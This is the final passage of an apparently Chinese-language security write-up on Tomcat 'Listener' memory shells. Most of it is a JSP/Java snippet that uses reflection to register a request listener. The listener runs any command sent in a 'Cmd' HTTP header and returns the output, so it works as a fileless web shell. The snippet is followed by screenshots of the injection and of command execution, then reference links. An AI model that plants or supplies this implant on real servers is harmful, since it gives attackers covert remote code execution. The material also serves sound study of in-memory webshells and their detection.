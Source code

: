 ```java
    StandardContext standardContext = (StandardContext) stdctxField.get(applicationContext);

    // 创建 Listener
    ServletRequestListener servletRequestListener = new ServletRequestListener() {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {

        }

        @Override
        public void requestInitialized(ServletRequestEvent sre){
            try {
                // 获取 request 和 response
                RequestFacade requestFacade = (RequestFacade) sre.getServletRequest();
                Field requestField = RequestFacade.class.getDeclaredField("request");
                requestField.setAccessible(true);
                Request request = (Request) requestField.get(requestFacade);
                Response response = request.getResponse();

                response.setCharacterEncoding("utf-8");
                PrintWriter pw = response.getWriter();
                String cmd = request.getHeader("Cmd");
                if (cmd != null){
                    Process process = Runtime.getRuntime().exec(cmd);
                    InputStream input = process.getInputStream();
                    BufferedReader br = new BufferedReader(new InputStreamReader(input));
                    String line = null;
                    while ((line = br.readLine()) != null){
                        pw.write(line);
                    }
                    pw.write("\n");
                }
            } catch (Exception e){
                e.printStackTrace();
            }
        }
    };

    // 添加 Listener
    standardContext.addApplicationEventListener(servletRequestListener);
    
    out.println("inject success");
%>
```

访问 jsp

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211051708077.png)

执行命令

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211051708601.png)

## 参考文章

[https://xz.aliyun.com/t/10358](https://xz.aliyun.com/t/10358)

[http://wjlshare.com/archives/1651](http://wjlshare.com/archives/1651)

[https://chenlvtang.top/2022/08/03/Tomcat之Listener内存马/](https://chenlvtang.top/2022/08/03/Tomcat之Listener内存马/)